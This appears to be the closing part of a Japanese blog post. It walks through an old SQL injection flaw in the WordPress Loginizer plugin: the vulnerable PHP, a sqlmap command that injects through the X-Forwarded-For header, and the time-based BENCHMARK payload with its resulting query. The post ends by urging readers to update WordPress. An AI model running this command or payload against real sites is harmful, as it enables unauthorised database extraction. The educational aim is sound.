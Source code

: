 ```php
function loginizer_can_login(){
	
	global $wpdb, $loginizer, $lz_error;
	
	// Get the logs
	$result = lz_selectquery("SELECT * FROM `".$wpdb->prefix."loginizer_logs` WHERE `ip` = '".$loginizer['current_ip']."';");
```

では、[sqlmap](http://sqlmap.org/)というペネトレーションテストツールを使って実際に試してみましょう。

```shell
python sqlmap.py -u "http://xxxxxxxx/wp-login.php" \
--data "user_login=1&user_pass=1&wp-submit=Login&testcookie=1" \
--headers="X-Forwarded-For: *" --level=5 --risk=3 --dbms=MySQL
```

上記のようなコマンドをコンソール上で実行すると以下のような結果が返って来ました。

![sqlmapの結果](./60582805-fda5-bd9f-6fcd-547527a8f1db.gif)


Typeの項目を見るとTime-based SQL Injectionの脆弱性があることが分かります。

```
Type: AND/OR time-based blind
```

Payloadの項目に実際にリクエストされた値が表示されています。

```
Payload: ' AND 2418=BENCHMARK(5000000,MD5(0x48515358))-- PYWm
```

つまり、以下のようなSQLが実行されているということになります。

```sql
select * from `wp_loginizer_logs` where `ip` = '' AND 2418=BENCHMARK(5000000,MD5(0x48515358))-- PYWm';
```

[BENCHMARK](https://dev.mysql.com/doc/refman/5.6/ja/information-functions.html#function_benchmark)関数は式の処理速度を計測する場合などに使われるものです。つまり、Vectorに記載されている内容から分かるように、特定条件の場合のみBENCHMARK関数が実行されるようにし、その時間差を計測することを繰り返せばデータを取り出すことが可能になります。

```
Vector: AND [RANDNUM]=IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])
```


##まとめ
正直なところ、この記事を書くまでは自分自身ではセキュリティ対策をやっているつもりでしたが、いろいろ調べる中でその認識が甘かったことを痛感しました。技術のトレンドは目まぐるしく動き、ついついトレンドを追うことに目を奪われがちですが、今一度基本に立ち返ってセキュリティのことを考えることが大切ではないでしょうか。（この記事は自分で動作検証した上で書いておりますが、内容に間違いなどありましたらコメントでご指摘頂けると幸いです）

:warning:悪用されないように古い脆弱性を取り上げましたが、WordPressやプラグインをずっと更新していないという方は更新されることをお勧めいたします。

